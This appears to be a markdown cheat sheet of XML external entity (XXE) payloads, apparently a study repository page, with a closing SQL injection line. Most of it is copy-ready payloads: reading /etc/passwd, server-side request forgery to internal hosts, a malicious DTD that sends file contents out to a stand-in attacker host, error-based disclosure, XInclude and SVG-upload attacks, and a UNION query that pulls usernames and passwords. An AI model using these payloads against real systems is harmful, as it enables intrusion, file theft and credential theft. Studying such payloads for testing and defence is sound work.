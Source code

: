 # XXE Payloads

## Exploiting XXE to retrieve files

tags: entities are not allowed for security reasons

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Detecting blind XXE using out-of-band (OAST) techniques

### Out-of-band interaction
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### Out-of-band interaction with parameter entity
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

## Exploiting blind XXE to exfiltrate data out-of-band
Create a malicious DTD file with the following content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
and submit the following XXE payload to the vulnerable application
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## Exploiting blind XXE to retrieve data via error messages
Create a malicious DTD file with the following content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
and submit the following XXE payload to the vulnerable application
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## Xinclude attack
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XXE attack via file upload
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content type
Most POST requests use a default content type that is generated by HTML forms, such as ``application/x-www-form-urlencoded``. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.


the sqli stuff:
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>

	